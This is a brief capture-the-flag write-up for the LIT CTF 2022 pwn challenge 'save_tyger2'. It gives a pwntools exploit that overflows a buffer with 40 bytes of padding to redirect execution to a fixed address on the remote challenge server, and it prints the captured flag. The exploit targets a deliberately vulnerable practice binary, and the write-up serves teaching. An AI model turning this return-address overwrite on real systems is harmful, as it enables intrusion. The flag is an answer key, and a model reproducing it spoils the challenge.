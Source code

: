 # LIT CTF 2022 – save_tyger2

* **Category:** pwn
* **Points:** 500

## Challenge

> Tyger needs your help again.

## Solution

```python
from pwn import *
elf = context.binary = ELF('./save_tyger2',checksec=False)
#p = process()
p = remote('litctf.live',31788)
offset = 40

payload = flat(
	offset * "A",
	0x401162
	)
log.info(p.clean())
p.sendline(payload)
p.interactive()
```

```
LITCTF{w3_w0nt_l3t_th3m_t4k3_tyg3r_3v3r_4gain}
```
